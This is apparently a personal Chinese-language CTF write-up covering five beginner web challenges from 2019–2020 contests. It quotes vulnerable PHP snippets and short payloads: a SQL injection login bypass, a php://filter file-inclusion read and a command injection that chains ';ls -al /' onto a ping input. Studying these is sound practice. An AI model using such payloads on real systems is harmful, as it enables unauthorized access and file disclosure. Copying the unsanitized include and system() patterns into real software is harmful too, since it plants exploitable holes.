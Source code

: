 # My bad

## 2021/06/30

### EasySQL

> 极客大挑战 2019

#### 题目

题目本身就是把用户输入放进一对单引号之中，想办法闭合单引号即可，无难度

#### payload

```
?username=bme&password=1' or '1'='1
```

## 2021/07/01

### Have fun

> 极客大挑战 2019

#### 题目

题目比较简单，打开页面源码，发现源码也包含在其中，发送Get请求`cat=dog`得到flag

```php
$cat=$_GET['cat'];
echo $cat;
if($cat=='dog'){
    echo 'Syc{cat_cat_cat_cat}';
}
```

#### payload

```
?cat=dog
```

### Include

> ACTF 2020

#### 题目

F12打开源码，发现一个`?file=flag.php`链接，点进去发现啥都没有，那只能先试试**伪协议**文件包含flag.php，得到base64的代码，解码后得到flag

#### payload

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

### Secret File

> 极客大挑战 2019

#### 题目

F12打开源码，发现一个`./Archive_room.php`的链接，点进去有一个**secret**按钮，点进去发现查阅结束，需要用Burp截包，截下数据包发现，有一个**302跳转**，其中包含`secr3t.php`页面，发现源代码。

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
```

还是经典的伪协议读取，读取`flag.php`，得到flag

#### payload

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

### Exec

> ACTF 2020

#### 题目

给了一个可以ping的框，F12打开源码，发现是命令执行，直接在框里输入命令绕过`127.0.0.1;ls`，得到目录下文件`index.php`，cat命令阅读源码，`ls`搜索目录发现上层目录中有`flag`文件，获取flag

```php
<?php 
if (isset($_POST['target'])) {
	system("ping -c 3 ".$_POST['target']);
}
?>
```

#### payload

```
127.0.0.1;ls -al /
```

